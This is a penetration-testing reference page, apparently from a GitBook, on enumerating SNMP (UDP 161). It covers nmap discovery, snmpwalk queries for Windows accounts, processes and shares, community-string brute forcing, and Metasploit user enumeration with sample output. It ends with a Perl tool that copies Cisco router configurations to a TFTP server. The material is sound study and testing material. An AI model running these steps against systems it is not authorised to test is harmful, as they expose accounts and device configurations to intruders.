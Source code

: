 ```yaml
---
description: >-
  UDP 161 - Simple Network Management Protocol (SNMP) is an Internet Standard
  protocol for collecting and organizing information about managed devices.
---
```


# 161 - SNMP

### Information

It's important to remember that SNMP has 3 versions:

| Version | Info |
| :--- | :--- |
| 1 | The initial version of the protocol. It is easy to set up and is defined in RFC 1155 and 1157. |
| 2c | The revised version with enhanced protocol packet types, transport mappings, and MIB structure elements, but also uses the existing SNMPv1 administration structure \("community-based" and hence SNMPv2c\). |
| 3 | Facilitates remote configuration of SNMP entities. It also adds both encryption and authentication, which can be used together or separately, making this the most secure version yet. |

### Install SNMP-MiBS 

```text
apt install snmp-mibs-downloader 
echo "" > /etc/snmp/snmp.conf 
```

### Discover SNMP

`nmap -p 161 -sU -oA nmap_udp_snmp 10.10.10.92` 

### Scan Host

```text
snmpwalk -v2c -c public 192.168.1.234 
-v = version of the SNMP - most poplur 2c 
-c = the public string (default public) 
```

### Brute force community string

```text
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
```

### **Metasploit - Enumerate users**

```text
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP IPv6 Enumeration 

[Enyx](../../tools/enyx.md) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol. 

### SNMPv3 

Identify SNMPv3 servers with nmap: 

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET` 

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3: 

```text
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

###  SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices. 

Download: 

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm) 

Install and set compatability as Windows XP SP2 

Press STRAT once you put the IP and public commuinty 

Download the  SNMP4tPC Getif MIB collection as well.

![](../../../.gitbook/assets/getimage.gif)

For each tab press 'start' to get the information  

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator  

### **Common Mibs**

**interfaces**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2` 

**Windows User Accounts**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25` 

**Windows Running Programs**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2` 

**Windows Hostname**   
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27` 

**Windows TCP Ports**   
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3` 

**Software Name**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2` 

**SysLocation**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP. 

**Usage**: 

```text
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:** 

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`



